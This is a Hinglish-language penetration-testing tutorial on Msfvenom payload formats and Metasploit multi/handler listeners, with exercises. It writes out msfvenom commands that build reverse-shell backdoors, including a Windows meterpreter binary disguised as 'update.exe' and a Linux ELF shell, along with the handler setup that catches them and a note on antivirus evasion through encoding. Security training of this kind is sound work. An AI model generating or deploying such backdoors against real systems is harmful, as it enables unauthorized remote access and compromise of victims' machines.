

# Topic 19 - Msfvenom Basics, Payload Formats & Multi/Handler Listeners

Metasploit console ke direct exploits ke alawa, penetration testing aur security audits mein standalone executable backdoors (files) compile karna aur unke incoming connections ko catch karne ke liye handler listeners setup karna sabse primary operational steps hote hain.

Is guide mein hum **Msfvenom** ke core options, payload delivery formats, architecture, aur **exploit/multi/handler** listeners ke detailed setup ko deep dive practicals ke saath samjhenge.

---

## 🗺️ The Architecture of Msfvenom & Listening Pipeline



---

## 1. Deep Dive: Msfvenom Kya Hai aur Kaise Kaam Karta Hai?

### A. Msfvenom Ka Janm (History & Architecture)
Metasploit ke v4 se pehle ke versions mein custom standalone binaries create karne ke liye do alag-alag commands chalani padti thin:
* **`msfpayload`**: Yeh payload code ke instructions ko direct assembly hex shellcode mein convert karta tha.
* **`msfencode`**: Yeh generated shellcode ko obfuscate (encode) karta tha taaki network filters aur basic Antivirus signatures ko bypass kiya ja sake (jaise polymorphic XOR encoder `shikata_ga_nai`).

In dono tools ko combine karke Rapid7 ne **`Msfvenom`** compile kiya. Yeh ek standalone Ruby-based command-line framework utility hai jo Kali Linux terminal se direct bina msfconsole load kiye execute hoti hai.

### B. Anatomy of an Msfvenom Command (Flags aur unka inner structure)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.98.128 LPORT=4444 -f exe -o update.exe
```

* **`-p` (Payload Select):** Metasploit payload directory modules library mein se specific module template load karta hai.
* **`LHOST` / `LPORT`:** Attacker (Kali Linux) ki IP aur port parameters, jo generated payload runtime config variables mein statically hardcode ho jaate hain. Target par execute hone par payload inhi details par connect back karta hai.
* **`-f` (Format Key):** Shellcode compiler ko command output structure layout dynamic headers (jaise PE headers in Windows, ELF headers in Linux) compile karne ke nirdesh deta hai.
* **`-o` (Output Location):** Target binary file ko custom folder path par name mapping ke sath write/save kar deta hai.

---

## 2. Payload Formats (The Multi-Platform Grid)

Msfvenom output formats ko do distinct categories mein split karta hai, jo development aur injection scenarios par depend karti hain:

### A. Executable Formats (Bina scripting ke direct target host par execute hone wale)
* **Windows:** `-f exe` (Standard application), `-f msi` (Installer file), `-f dll` (Dynamic Link Library injection).
* **Linux:** `-f elf` (Executable and Linkable Format, Linux runtime applications).
* **Android:** `-f apk` (Android installation bundle).
* **macOS:** `-f macho` (Mach-O executable binary formats).

### B. Programming & Scripting Formats (Custom programs codes/exploits mein inject karne wale)
* **Scripting files:** `-f py` (Python scripts), `-f ps1` (PowerShell scripts), `-f sh` (Unix command shell scripts).
* **Source Shellcode formats:** `-f raw` (pure hex binary shellcode instructions jo buffer overflow exploits memory injection control blocks mein use hotey hain), `-f c` (C code target buffers arrays).

---

## 3. Exploit Multi/Handler (The Central Waiting Station)

Jab custom payload file target machine par execute hoti hai, toh connection listen karne aur upcoming network packets transfer handles process karne ke liye Metasploit Console (`msfconsole`) mein **`exploit/multi/handler`** module initialize kiya jata hai.

### The Mechanics of Listening:
`multi/handler` background socket listener start karta hai. Jaise hi connection target stager se receive hota hai, handler validation parameters check karta hai. Agar configs matching hain, toh yeh Kali se dynamic executable modules library target host par stream inject kar deta hai jisse access shell open ho sake.

---

## 4. Bhar-Bhar Ke Practicals (Basic to Advance)

### Practical 1: Generating a Linux ELF Backdoor & Listening Connection (Linux Target)

#### Step 1: Msfvenom Command run karein (Kali Linux Terminal par):
Hum Linux architecture ke compatible reverse shell code test.elf generate karenge:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.98.128 LPORT=5555 -f elf -o test.elf
```
*(LPORT `5555` set kiya hai aur target output `test.elf` hai).*

#### Step 2: Multi/Handler Listener configure karein (Msfconsole ke andar):
```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.98.128
msf6 exploit(multi/handler) > set LPORT 5555
msf6 exploit(multi/handler) > exploit -j
```
*(Note: `-j` option listener ko background job run criteria par lock kar deta hai).*

---

### Practical 2: Generating a Windows Executable Backdoor & Custom Listening (Windows Target)

#### Step 1: Msfvenom Executable Compile Command (Kali Terminal):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.98.128 LPORT=9999 -f exe -o update.exe
```

#### Step 2: Multi/Handler Session Listening Setup (Msfconsole):
```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.98.128
msf6 exploit(multi/handler) > set LPORT 9999
msf6 exploit(multi/handler) > exploit
```
*(Yahan listener active foreground loop mein target connection catch karne ke liye wait state mein chala jayega).*

---

## 🛡️ Pro-Tips & Common Troubleshooting Checks

### 1. The Payload Mismatch Trap (Rookie Mistake #1)
* **The Error:** Msfvenom build command: `windows/meterpreter/reverse_tcp` par, handler listener set kiya: `windows/shell_reverse_tcp`.
* **The Result:** Exploit run hone par stager Kali ke sath connect to karega, par stage download matching protocols missing hone ki wajah se execution break ho jayegi.
* **Pro-Tip:** Target connection links success ke liye hamesha verification payload paths details **exactly same** hone chahiye!

### 2. Handlers ko Background Jobs mein run karna
Terminal block hone se bachane ke liye:
* Use command: `exploit -j` (Runs handler as background daemon).
* Active listeners trace karne ke liye: `jobs`
* Listener shutdown karne ke liye: `kill <job_id>`

---

## 📝 Practice Exercises (Hinglish Tasks)

1. **Exercise 1 (Syntax Identification):**  
   Aapko Linux (64-bit) system ke liye ek reverse TCP shell backdoor banana hai jiska name `test.elf` ho. Standard msfvenom command kya hogi? (Parameters structure likh kar batao).

2. **Exercise 2 (Payload Mismatch Scenario):**  
   Maan lijiye aapne msfvenom se file banate waqt payload set kiya: `windows/meterpreter/reverse_tcp`. Lekin Kali Linux par listener (`multi/handler`) set karte waqt aapne payload set kar diya: `windows/shell/reverse_tcp`.  
   Exploit execute hone par kya session link open hoga? Kyun?

3. **Exercise 3 (The LHOST Rule in Handlers):**  
   `exploit/multi/handler` ke options mein `LHOST` variable par humesha kis system (Kali Linux ya Target VM) ki IP address configure ki jati hai? 

4. **Exercise 4 (Understand Output Formats):**  
   Msfvenom command mein `-f raw` aur `-f exe` formats ke beech kya differences hote hain? (Hacking perspective se batao).

5. **Exercise 5 (Multi/Handler background running):**  
   Metasploit handler listener ko background job ki tarah run karne ke liye `exploit` command ke sath kaun sa dynamic switch/flag use kiya jata hai? (Hint: background options switch check).

6. **Exercise 6 (Platform verification filter):**  
   Msfvenom command line run karte waqt, targets parameters (`--platform`) specify karna kyun safe mana jata hai?

7. **Exercise 7 (Port Conflicts in Multi/Handler):**  
   Agar aapne handler chalaya aur terminal par print hua: `BindFailed: Address already in use`, toh is conflict ko clean karne ke liye aap terminal par kya configuration check command run karoge?

8. **Exercise 8 (Msfvenom listing payloads):**  
   Msfvenom ke terminal list parameters check karne ke liye saare platforms payloads display karne ki direct command kya hoti hai?
